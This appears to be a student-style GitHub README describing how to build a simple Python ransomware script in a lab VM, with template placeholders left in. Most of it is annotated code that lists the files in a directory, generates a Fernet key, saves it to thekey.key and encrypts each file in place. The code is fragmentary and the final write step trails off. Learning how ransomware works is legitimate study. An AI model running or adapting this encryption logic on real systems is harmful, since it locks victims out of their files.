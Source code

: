 # Ransomware
Deploying ransomware using Python

## Objective


As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand one of the methods of carrying out a ransomware attacks.

### Skills Learned


- Advanced understanding of SIEM concepts and practical application.
- Python scripting
- Cryptography
- 


### Tools Used
[Bullet Points - Remove this afterwards]

- Python
  

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "ransomware.py" or file == "thekey.key" : (next line)continue(next line) files.append(file) // This is seperating our script file that is in the same directory forom the file list we created earlier in the script.

print(files) // Will display the "files" list on the CLI.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: 



*Ref 1: Network Diagram*
